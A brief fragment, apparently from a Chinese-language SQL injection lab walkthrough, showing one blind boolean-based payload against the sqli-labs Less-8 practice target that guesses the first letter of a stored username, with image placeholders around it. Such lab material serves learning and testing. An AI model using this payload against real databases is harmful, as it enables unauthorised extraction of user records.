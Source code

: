![](file/image_x7RkBexdsV.png)

```sql
//爆数据
http://192.168.65.128/sqli-labs/Less-8/?id=1' 
and substr((select username from users limit 0,1),1,1)='i' --+ 
```

![](file/image_ALSCn6n_p3.png)

